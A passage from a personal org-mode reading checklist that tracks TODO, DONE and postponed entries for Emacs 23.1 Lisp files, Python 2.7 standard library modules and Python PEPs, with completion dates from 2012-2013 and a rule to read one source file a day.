      (t (cons 'list heads)))))

**** DONE file:/root/work/emacs23-23.1+1/lisp/subr.el
***** event-modifiers
	  logand lognot logior
***** event-basic-type
**** DONE file:/root/work/emacs23-23.1+1/lisp/version.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/widget.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/custom.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/map-ynp.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/cus-start.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/international/mule.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/international/mule-conf.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/env.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/format.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/bindings.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/files.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/cus-face.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/faces.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/minibuffer.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/button.el
**** DONE file:/root/work/emacs23-23.1+1/lisp/startup.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/loaddefs.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/ldefs-boot.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/abbrev.el
**** POSTPONES file:/root/work/emacs23-23.1+1/lisp/simple.el
- minibuffer
- shell-command
**** TODO file:/root/work/emacs23-23.1+1/lisp/help.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/jka-cmpr-hook.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/epa-hook.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/international/mule-cmds.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/case-table.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/international/characters.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/composite.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/international/charprop.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/language/japanese.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/language/utf-8-lang.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/indent.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/window.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/frame.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/tty-colors.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/font-core.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/facemenu.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/syntax.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/font-lock.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/jit-lock.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/mouse.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/scroll-bar.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/select.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/timer.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/isearch.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/rfn-eshadow.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/menu-bar.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/paths.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/lisp.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/textmodes/page.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/register.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/textmodes/paragraphs.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/lisp-mode.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/textmodes/text-mode.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/textmodes/fill.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/replace.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/buff-menu.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/fringe.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/image.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/international/fontset.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/dnd.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/mwheel.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/tool-bar.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/x-dnd.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/common-win.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/x-win.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/w32-vars.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/common-win.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/w32-win.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/ls-lisp.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/disp-table.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/dos-w32.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/w32-fns.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/dos-w32.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/dos-fns.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/dos-vars.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/pc-win.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/ls-lisp.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/disp-table.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/ls-lisp.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/easymenu.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/term/ns-win.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/emacs-lisp/float-sup.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/vc-hooks.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/ediff-hook.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/tooltip.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/site-load.el
**** TODO file:/root/work/emacs23-23.1+1/lisp/site-init.el
*** python [22/224]
   - Rule
# 一日 1 file source を読む
# source を読み改善できるところは改善する
	 222 file
**** TODO argparse.py
**** TODO file:/usr/lib/python2.7/_abcoll.py
**** TODO file:/usr/lib/python2.7/abc.py
**** TODO file:/usr/lib/python2.7/aifc.py
**** TODO file:/usr/lib/python2.7/anydbm.py
**** TODO file:/usr/lib/python2.7/ast.py
**** TODO file:/usr/lib/python2.7/asynchat.py
**** TODO file:/usr/lib/python2.7/asyncore.py
**** TODO file:/usr/lib/python2.7/atexit.py
**** TODO file:/usr/lib/python2.7/audiodev.py
**** TODO file:/usr/lib/python2.7/base64.py
**** TODO file:/usr/lib/python2.7/BaseHTTPServer.py
**** TODO file:/usr/lib/python2.7/Bastion.py
**** TODO file:/usr/lib/python2.7/bdb.py
**** TODO file:/usr/lib/python2.7/binhex.py
**** DONE file:/usr/lib/python2.7/bisect.py
     CLOSED: [2013-01-22  21:31]
**** TODO file:/usr/lib/python2.7/bsddb
**** TODO file:/usr/lib/python2.7/build
**** TODO file:/usr/lib/python2.7/calendar.py
**** TODO file:/usr/lib/python2.7/CGIHTTPServer.py
**** TODO file:/usr/lib/python2.7/cgi.py
**** TODO file:/usr/lib/python2.7/cgitb.py
**** TODO file:/usr/lib/python2.7/chunk.py
**** TODO file:/usr/lib/python2.7/cmd.py
**** TODO file:/usr/lib/python2.7/codecs.py
**** TODO file:/usr/lib/python2.7/codeop.py
**** TODO file:/usr/lib/python2.7/code.py
**** TODO file:/usr/lib/python2.7/collections.py
**** TODO file:/usr/lib/python2.7/colorsys.py
**** TODO file:/usr/lib/python2.7/commands.py
**** TODO file:/usr/lib/python2.7/compileall.py
**** TODO file:/usr/lib/python2.7/compiler
**** TODO file:/usr/lib/python2.7/config
**** TODO file:/usr/lib/python2.7/ConfigParser.py
**** DONE file:/usr/lib/python2.7/contextlib.py
     CLOSED: [2013-01-27  00:25]
**** TODO file:/usr/lib/python2.7/cookielib.py
**** TODO file:/usr/lib/python2.7/Cookie.py
**** TODO file:/usr/lib/python2.7/copy.py
**** TODO file:/usr/lib/python2.7/copy_reg.py
**** TODO file:/usr/lib/python2.7/cProfile.py
**** TODO file:/usr/lib/python2.7/csv.py
**** TODO file:/usr/lib/python2.7/ctypes
**** TODO file:/usr/lib/python2.7/curses
**** TODO file:/usr/lib/python2.7/dbhash.py
**** TODO file:/usr/lib/python2.7/decimal.py
**** TODO file:/usr/lib/python2.7/difflib.py
**** DONE file:/usr/lib/python2.7/dircache.py
**** TODO file:/usr/lib/python2.7/dis.py
**** TODO file:/usr/lib/python2.7/dist-packages
**** TODO file:/usr/lib/python2.7/distutils
**** TODO file:/usr/lib/python2.7/doctest.py
**** TODO file:/usr/lib/python2.7/DocXMLRPCServer.py
**** TODO file:/usr/lib/python2.7/dumbdbm.py
**** TODO file:/usr/lib/python2.7/dummy_threading.py
**** TODO file:/usr/lib/python2.7/dummy_thread.py
**** TODO file:/usr/lib/python2.7/email
**** TODO file:/usr/lib/python2.7/encodings
**** DONE file:/usr/lib/python2.7/filecmp.py
**** TODO file:/usr/lib/python2.7/fileinput.py
**** DONE file:/usr/lib/python2.7/fnmatch.py
     CLOSED: [2013-01-18 18:01]
**** TODO file:/usr/lib/python2.7/formatter.py
**** TODO file:/usr/lib/python2.7/fpformat.py
**** TODO file:/usr/lib/python2.7/fractions.py
**** TODO file:/usr/lib/python2.7/ftplib.py
**** DONE file:/usr/lib/python2.7/functools.py
**** TODO file:/usr/lib/python2.7/__future__.py
**** DONE file:/usr/lib/python2.7/genericpath.py
**** TODO file:/usr/lib/python2.7/getopt.py
**** TODO file:/usr/lib/python2.7/getpass.py
**** TODO file:/usr/lib/python2.7/gettext.py
**** DONE file:/usr/lib/python2.7/glob.py
**** TODO file:/usr/lib/python2.7/gzip.py
**** TODO file:/usr/lib/python2.7/hashlib.py
**** TODO file:/usr/lib/python2.7/heapq.py
**** TODO file:/usr/lib/python2.7/hmac.py
**** TODO file:/usr/lib/python2.7/hotshot
**** TODO file:/usr/lib/python2.7/htmlentitydefs.py
**** TODO file:/usr/lib/python2.7/htmllib.py
**** TODO file:/usr/lib/python2.7/HTMLParser.py
**** TODO file:/usr/lib/python2.7/httplib.py
**** TODO file:/usr/lib/python2.7/ihooks.py
**** TODO file:/usr/lib/python2.7/imaplib.py
**** TODO file:/usr/lib/python2.7/imghdr.py
**** TODO file:/usr/lib/python2.7/imputil.py
**** TODO file:/usr/lib/python2.7/inspect.py
**** TODO file:/usr/lib/python2.7/io.py
**** TODO file:/usr/lib/python2.7/json
**** TODO file:/usr/lib/python2.7/keyword.py
**** TODO file:/usr/lib/python2.7/lib2to3
**** TODO file:/usr/lib/python2.7/lib-dynload
**** TODO file:/usr/lib/python2.7/lib-tk
**** TODO file:/usr/lib/python2.7/linecache.py
**** TODO file:/usr/lib/python2.7/locale.py
**** TODO file:/usr/lib/python2.7/logging
**** TODO file:/usr/lib/python2.7/_LWPCookieJar.py
**** TODO file:/usr/lib/python2.7/macpath.py
**** TODO file:/usr/lib/python2.7/macurl2path.py
**** TODO file:/usr/lib/python2.7/mailbox.py
**** TODO file:/usr/lib/python2.7/mailcap.py
**** TODO file:/usr/lib/python2.7/markupbase.py
**** TODO file:/usr/lib/python2.7/md5.py
**** TODO file:/usr/lib/python2.7/mhlib.py
**** TODO file:/usr/lib/python2.7/mimetools.py
**** TODO file:/usr/lib/python2.7/mimetypes.py
**** TODO file:/usr/lib/python2.7/MimeWriter.py
**** TODO file:/usr/lib/python2.7/mimify.py
**** TODO file:/usr/lib/python2.7/modulefinder.py
**** TODO file:/usr/lib/python2.7/_MozillaCookieJar.py
**** TODO file:/usr/lib/python2.7/multifile.py
**** TODO file:/usr/lib/python2.7/multiprocessing
**** TODO file:/usr/lib/python2.7/mutex.py
**** TODO file:/usr/lib/python2.7/netrc.py
**** TODO file:/usr/lib/python2.7/new.py
**** TODO file:/usr/lib/python2.7/nntplib.py
**** DONE file:/usr/lib/python2.7/ntpath.py
**** TODO file:/usr/lib/python2.7/nturl2path.py
**** TODO file:/usr/lib/python2.7/numbers.py
**** TODO file:/usr/lib/python2.7/opcode.py
**** TODO file:/usr/lib/python2.7/optparse.py
**** TODO file:/usr/lib/python2.7/os2emxpath.py
**** DONE file:/usr/lib/python2.7/os.py
**** TODO file:/usr/lib/python2.7/pdb.py
**** TODO file:/usr/lib/python2.7/__phello__.foo.py
**** TODO file:/usr/lib/python2.7/pickle.py
**** TODO file:/usr/lib/python2.7/pickletools.py
**** TODO file:/usr/lib/python2.7/pipes.py
**** TODO file:/usr/lib/python2.7/pkgutil.py
**** TODO file:/usr/lib/python2.7/platform.py
**** TODO file:/usr/lib/python2.7/plat-linux2
**** TODO file:/usr/lib/python2.7/plistlib.py
**** TODO file:/usr/lib/python2.7/popen2.py
**** TODO file:/usr/lib/python2.7/poplib.py
**** TODO file:/usr/lib/python2.7/posixfile.py
**** TODO file:/usr/lib/python2.7/posixpath.py
**** TODO file:/usr/lib/python2.7/pprint.py
**** TODO file:/usr/lib/python2.7/pty.py
**** TODO file:/usr/lib/python2.7/pyclbr.py
**** TODO file:/usr/lib/python2.7/py_compile.py
**** POSTPONES file:/usr/lib/python2.7/pydoc.py
**** TODO file:/usr/lib/python2.7/pydoc_topics.py
**** DONE file:/usr/lib/python2.7/Queue.py
     CLOSED: [2013-01-23  00:04]
**** TODO file:/usr/lib/python2.7/quopri.py
**** DONE file:/usr/lib/python2.7/random.py
**** TODO file:/usr/lib/python2.7/repr.py
**** DONE file:/usr/lib/python2.7/re.py
     CLOSED: [2012-12-29 Sat 21:34]
**** TODO file:/usr/lib/python2.7/rexec.py
**** TODO file:/usr/lib/python2.7/rfc822.py
**** TODO file:/usr/lib/python2.7/rlcompleter.py
**** TODO file:/usr/lib/python2.7/robotparser.py
**** TODO file:/usr/lib/python2.7/runpy.py
**** TODO file:/usr/lib/python2.7/sched.py
**** TODO file:/usr/lib/python2.7/sets.py
**** TODO file:/usr/lib/python2.7/sgmllib.py
**** TODO file:/usr/lib/python2.7/sha.py
**** TODO file:/usr/lib/python2.7/shelve.py
**** TODO file:/usr/lib/python2.7/shlex.py
**** DONE file:/usr/lib/python2.7/shutil.py
     CLOSED: [2013-01-18 17:31]
**** TODO file:/usr/lib/python2.7/SimpleHTTPServer.py
**** TODO file:/usr/lib/python2.7/SimpleXMLRPCServer.py
**** TODO file:/usr/lib/python2.7/sitecustomize.py -> /etc/python2.6/si
**** TODO file:/usr/lib/python2.7/site-packages
**** TODO file:/usr/lib/python2.7/site.py
**** TODO file:/usr/lib/python2.7/smtpd.py
**** TODO file:/usr/lib/python2.7/smtplib.py
**** TODO file:/usr/lib/python2.7/sndhdr.py
**** TODO file:/usr/lib/python2.7/socket.py
**** TODO file:/usr/lib/python2.7/SocketServer.py
**** TODO file:/usr/lib/python2.7/sqlite3
**** TODO file:/usr/lib/python2.7/sre_compile.py
**** TODO file:/usr/lib/python2.7/sre_constants.py
**** TODO file:/usr/lib/python2.7/sre_parse.py
**** TODO file:/usr/lib/python2.7/sre.py
**** TODO file:/usr/lib/python2.7/ssl.py
**** TODO file:/usr/lib/python2.7/stat.py
**** TODO file:/usr/lib/python2.7/statvfs.py
**** TODO file:/usr/lib/python2.7/StringIO.py
**** TODO file:/usr/lib/python2.7/stringold.py
**** TODO file:/usr/lib/python2.7/stringprep.py
**** DONE file:/usr/lib/python2.7/string.py
     CLOSED: [2013-01-21 03:24]
**** TODO file:/usr/lib/python2.7/_strptime.py
**** TODO file:/usr/lib/python2.7/struct.py
**** DONE file:/usr/lib/python2.7/subprocess.py
**** TODO file:/usr/lib/python2.7/sunaudio.py
**** TODO file:/usr/lib/python2.7/sunau.py
**** TODO file:/usr/lib/python2.7/symbol.py
**** TODO file:/usr/lib/python2.7/symtable.py
**** TODO file:/usr/lib/python2.7/tabnanny.py
**** TODO file:/usr/lib/python2.7/tarfile.py
**** TODO file:/usr/lib/python2.7/telnetlib.py
**** DONE file:/usr/lib/python2.7/tempfile.py
**** TODO file:/usr/lib/python2.7/test
**** DONE file:/usr/lib/python2.7/textwrap.py
     CLOSED: [2013-01-21  21:28]
**** DONE file:/usr/lib/python2.7/this.py
**** TODO file:/usr/lib/python2.7/_threading_local.py
**** TODO file:/usr/lib/python2.7/threading.py
**** TODO file:/usr/lib/python2.7/timeit.py
**** TODO file:/usr/lib/python2.7/toaiff.py
**** TODO file:/usr/lib/python2.7/tokenize.py
**** TODO file:/usr/lib/python2.7/token.py
**** TODO file:/usr/lib/python2.7/traceback.py
**** TODO file:/usr/lib/python2.7/trace.py
**** TODO file:/usr/lib/python2.7/tty.py
**** DONE file:/usr/lib/python2.7/types.py
**** TODO file:/usr/lib/python2.7/unittest.py
**** TODO file:/usr/lib/python2.7/urllib2.py
**** TODO file:/usr/lib/python2.7/urllib.py
**** DONE file:/usr/lib/python2.7/urlparse.py
2012/10/30
**** TODO file:/usr/lib/python2.7/UserDict.py
**** TODO file:/usr/lib/python2.7/UserList.py
**** DONE file:/usr/lib/python2.7/user.py
**** TODO file:/usr/lib/python2.7/UserString.py
**** TODO file:/usr/lib/python2.7/uuid.py
**** TODO file:/usr/lib/python2.7/uu.py
**** TODO file:/usr/lib/python2.7/warnings.py
**** TODO file:/usr/lib/python2.7/wave.py
**** TODO file:/usr/lib/python2.7/weakref.py
**** TODO file:/usr/lib/python2.7/webbrowser.py
**** TODO file:/usr/lib/python2.7/whichdb.py
**** TODO file:/usr/lib/python2.7/wsgiref
**** TODO file:/usr/lib/python2.7/xdrlib.py
**** TODO file:/usr/lib/python2.7/xml
**** TODO file:/usr/lib/python2.7/xmllib.py
**** TODO file:/usr/lib/python2.7/xmlrpclib.py
**** TODO file:/usr/lib/python2.7/zipfile.py
*** python pep [5/321]
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0000.txt
**** DONE p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0001.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0002.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0003.txt
**** DONE p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0004.txt
**** DONE p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0005.txt
**** DONE p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0006.txt
**** POSTPONES p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0007.txt
**** DONE p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0008.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0009.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0010.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0011.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0012.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0020.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0042.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0100.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0101.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0102.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0160.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0200.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0201.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0202.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0203.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0204.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0205.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0206.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0207.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0208.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0209.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0210.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0211.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0212.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0213.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0214.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0215.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0216.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0217.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0218.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0219.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0220.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0221.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0222.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0223.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0224.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0225.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0226.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0227.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0228.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0229.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0230.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0231.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0232.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0233.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0234.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0235.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0236.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0237.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0238.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0239.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0240.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0241.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0242.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0243.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0244.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0245.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0246.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0247.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0248.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0249.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0250.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0251.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0252.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0253.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0254.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0255.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0256.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0257.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0258.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0259.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0260.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0261.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0262.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0263.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0264.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0265.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0266.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0267.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0268.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0269.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0270.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0271.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0272.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0273.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0274.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0275.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0276.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0277.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0278.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0279.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0280.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0281.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0282.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0283.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0284.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0285.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0286.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0287.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0288.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0289.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0290.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0291.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0292.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0293.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0294.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0295.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0296.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0297.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0298.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0299.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0301.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0302.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0303.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0304.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0305.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0306.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0307.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0308.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0309.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0310.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0311.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0312.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0313.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0314.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0315.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0316.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0317.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0318.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0319.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0320.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0321.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0322.txt
